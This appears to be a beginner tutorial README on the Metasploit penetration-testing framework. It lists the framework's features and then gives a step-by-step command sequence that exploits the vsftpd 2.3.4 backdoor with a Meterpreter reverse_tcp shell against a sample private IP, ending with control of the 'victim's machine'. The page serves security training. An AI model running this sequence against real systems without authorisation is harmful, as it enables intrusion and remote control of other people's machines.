 # 💣 Metasploit Framework

## Description

Metasploit is an open-source penetration testing framework widely used for developing, testing, and executing exploits against 
target systems. It provides security professionals and ethical hackers with powerful tools for vulnerability research, exploit development,
and penetration testing.

---

## ✅ Key Features:

- Huge collection of ready-to-use exploits, payloads, and auxiliary modules

- Post-exploitation tools for maintaining access and gathering data

- Built-in Meterpreter payload for advanced exploitation

- Support for vulnerability scanning and exploitation

- Integrates with tools like Nmap, Nessus, and Burp Suite

- Useful for red teaming, security assessments, and training

---




---

## Metasploit Use

- After scanning the ports of the Target machine you have seen all the active and open ports of the target machine.

- To get start with metasploit type command `msfconsole`.

- From the open ports version check which version is running on the target machine.

- Now check that version exploit is there on your Metasploit Framework by typing the command `search exploit: exploit name`.

- If that exploit is present in your metasploit framework than it will be easy for you to exploit your target machine, and
if it is not present in the metaploit framework than youhave to download it from the web browser or you can create your own exploit.


## 🛠 Example Usage

#### Start Metasploit console
**`msfconsole`**

#### Search for an exploit
**`search vsftpd`**

#### Use a module
**`use exploit/unix/ftp/vsftpd_234_backdoor`**

#### Show module options
**`show options`**

#### Set target and payload
**`set RHOSTS 192.168.1.10`**
**`set PAYLOAD linux/x86/meterpreter/reverse_tcp`**

#### Run the exploit
**`exploit`**

- After typing the Exploit it will either make a succesfull connection of connection will be failed.

- If connection is establised than simplly type command `ip a` and it will show to IP Address of the Target Machine.

- Congratualtions Now you can use the victim's machine.

  ---
